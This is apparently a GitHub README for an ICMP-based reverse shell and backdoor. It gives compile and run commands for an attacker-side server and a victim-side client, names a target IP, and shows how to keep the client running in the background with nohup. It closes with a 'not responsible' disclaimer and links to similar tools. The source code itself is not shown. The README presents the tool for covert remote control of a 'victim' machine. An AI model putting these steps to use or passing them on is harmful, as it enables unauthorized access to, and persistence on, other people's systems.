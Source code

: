 # icmp_reverse_shell

# ICMP REVERSE SHELL / BACKDOOR

Hi, hope you are doing well, this project is about reverse shell using icmp, here is how it can be used

# Usage

FIrstly, compile it in your machine


Attacker:
```bash
gcc server.c -o server
```

Victim:
```bash
gcc client.c -o client
```

#### To Run the Server:

```bash
./server <target-ip>
./server 192.168.1.9
```

#### Run the client on victim machine

```bash
./client
```

You can use nohup to put the process in background

```bash
nohup ./client &
```

### Note I'm not responsible for any of your actions,
Be happy.



## References

(ICMPSH)[https://github.com/bdamele/icmpsh]
(ICMPSHELL)[https://github.com/sin5678/icmp_shell]
(ICMPDOOR)[https://github.com/krabelize/icmpdoor]
